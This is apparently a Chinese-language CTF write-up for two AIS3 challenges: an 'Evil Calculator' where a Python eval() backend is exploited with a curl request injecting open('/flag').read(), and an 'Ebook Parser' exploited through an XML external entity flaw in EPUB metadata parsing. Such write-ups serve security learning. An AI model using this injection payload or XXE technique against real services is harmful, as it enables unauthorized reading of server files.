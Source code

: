 ### Evil Calculator

題目作者：[TriangleSnake](https://blog.trianglesnake.com/)\
題目難度：Warmup\
解題人數：213/328

{{<details "Source code"></details>}}

![calculator](calculator.webp)

這題提供了一個計算機的介面，輸入算式後會被送到後端計算，由於使用了 `eval()` 函數，並且只有過濾掉 `_` 和空格，只要控制 `expression` 的內容就能執行惡意程式碼。由於無法直接匯入東西（`__import__` 需要底線，`import os` 需要空格），我的解法是透過 [Python Bulit-in Functinos](https://docs.python.org/3/library/functions.html) 中的 `open()` 函數讀取 flag 檔案。

```bash
curl -X POST http://chals1.ais3.org:5001/calculate -H "Content-Type: application/json" \
    --data "{\"expression\":\"open('/flag').read()\"}"
{"result":"AIS3{7RiANG13_5NAK3_I5_50_3Vi1}"}
```

Flag: `AIS3{7RiANG13_5NAK3_I5_50_3Vi1}`

### Ebook Parser

題目作者：[石頭吐司](https://t510599.github.io/)\
題目難度：Easy\
解題人數：35/328

這個題目要求我們上傳一個電子書檔案，然後將其中的幾個 meta 顯示在網站上。這個題目的漏洞在使用的函數庫上，epub 使用 XML 格式儲存 meta 相關資料，但是函數庫在解析 epub 檔案時沒有過濾掉 [External Entities](https://www.w3.org/TR/REC-xml/#sec-external-ent)，我在網路上找了一個[範例 EPUB 檔案](https://idpf.github.io/epub3-samples/30/samples.html)，跟著[維基百科](https://en.wikipedia.org/wiki/XML_external_entity_attack)的說明就能夠讀取到 flag。

```python
def _get_title_node(self):
  node_list = self._get_all('opf:metadata/dc:title')
    for node in node_list:
      refines_list = self._get_all('opf:metadata/opf:meta[@refines="#{0}" and @property="title-type"]'.format(self._get_element_id(node)))
      if len(refines_list) == 0:
        return node
      else:
        for refines in refines_list:
          if refines.text == 'main':
            return node
```
